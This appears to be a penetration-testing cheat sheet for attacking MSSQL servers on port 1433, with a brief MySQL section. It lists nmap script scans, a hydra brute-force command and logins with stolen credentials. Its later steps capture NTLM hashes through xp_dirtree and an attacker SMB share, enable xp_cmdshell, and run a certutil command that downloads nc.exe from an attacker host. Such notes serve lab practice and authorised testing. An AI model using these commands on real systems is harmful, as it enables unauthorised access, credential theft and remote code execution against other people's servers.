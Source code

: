 ## MSSQL - 1433

| **Command**                                                                                                                                                                                                                                                                                                 | **Description**                                          |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------- |
| `mssqlclient.py <user>@<FQDN/IP> -windows-auth`                                                                                                                                                                                                                                                             | Log in to the MSSQL server using Windows authentication. |
| `locate mssqlclient.py`                                                                                                                                                                                                                                                                                     | Locate mssqlclient.py                                    |
| `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248` | NMAP MSSQL Script Scan                                   |
| `sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*`                                                                                                                                                                                                                                                    | Scanning MySQL Server                                    |
| `mysql -u root -pP4SSw0rd -h 10.129.14.128`                                                                                                                                                                                                                                                                 | Interaction with the MySQL Server                        |

### Get information

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### Having credentials

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```

---
